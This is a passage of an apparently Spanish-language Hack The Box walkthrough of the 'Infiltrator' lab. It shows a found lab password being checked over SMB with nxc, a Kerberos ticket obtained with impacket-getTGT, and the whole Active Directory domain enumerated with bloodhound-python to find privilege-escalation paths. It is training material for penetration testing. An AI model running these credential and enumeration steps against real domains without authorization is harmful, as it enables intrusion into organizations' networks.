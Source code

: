 Validaremos que con el usuario `d.anderson@infiltrator.htb` a través de autenticación NTLM no podemos autenticarnos, en cambio, a través de la autenticación de Kerberos si.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'd.anderson' -p 'WAT?watismypass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
❯ nxc smb dc01.infiltrator.htb -u 'd.anderson' -p 'WAT?watismypass!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\d.anderson:WAT?watismypass! 
```

Procederemos a solicitar un TGT (Ticket Granting Ticket) para el usuario, para poder utilizarlo para autenticarnos con este usuario. El ticket obtenido `d.anderson.ccache` lo almacenaremos en la variable `KRB5CCNAME` y verificaremos a través de `klist -e` de que el ticket TGT está correctamente configurado.

```bash
❯ impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in d.anderson.ccache

❯ export KRB5CCNAME=$(pwd)/d.anderson.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/d.anderson.ccache
Default principal: d.anderson@INFILTRATOR.HTB

Valid starting     Expires            Service principal
17/01/25 21:17:44  18/01/25 01:17:44  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 18/01/25 01:17:44, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96
```

## BloodHound Enumeration

A continuación, realizaremos una enumeración del dominio entero a través de `BloodHound`. El siguiente comando nos creará un archivo `.zip` el cual contendrá toda la información del dominio. Lo que buscamos en realizar esta enumeración es buscar posibles vectores de ataque para escalar nuestros privilegios.

En este caso hemos utilizado al usuario `d.anderson` y nos autenticamos mediante Kerberos `-k`, pero podríamos haber utilizado el usuario `l.clark` dado que esta usuaria se puede autenticar mediante NTLM.

```bash
❯ bloodhound-python -c All -ns 10.10.11.31 -u 'd.anderson' -p 'WAT?watismypass!' -k --auth-method kerberos -d infiltrator.htb --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: infiltrator.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 14 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
```